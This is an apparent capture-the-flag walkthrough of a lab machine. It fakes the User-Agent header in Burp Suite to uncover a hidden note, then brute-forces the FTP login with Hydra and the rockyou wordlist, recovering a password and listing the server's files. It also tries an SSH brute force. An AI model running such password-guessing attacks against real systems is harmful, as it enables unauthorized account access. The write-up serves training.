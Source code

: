 Looks like all we have to do is change our User-Agent header to R
I'll do it in Burpsuite
We get this message.

````Shell
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
````

Lets find a different codename, with 26 letters in the alphabet and Agent R being the supervisor.
Each letter is a different agent name.
I started with A and found that using User-Agent: C redirects -- follow redirection on burp.

We get this text

````

Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,

Agent R

````

## Info enumeration

Weak password means we can probably brute force it with something like Hydra.

Before we move on, lets see if agent J has anything on the website.

nothing....

On to brute forcing, lets start with FTP.

````shell
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.48.205
````

Found one

````shell
[21][ftp] host: 10.10.48.205   login: chris   password: crystal
````

Lets see if we can brute the SSH pass as well before moving on.
````shell

hydra -l chris -P /usr/share/wordlists/rockyou.txt ssh://10.10.48.205
````

not getting anywhere, lets explore the ftp server

````shell
 ftp chris@10.10.48.205
````

````shell
ftp> dir

229 Entering Extended Passive Mode (|||34289|)

150 Here comes the directory listing.

-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt

-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg

-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png

````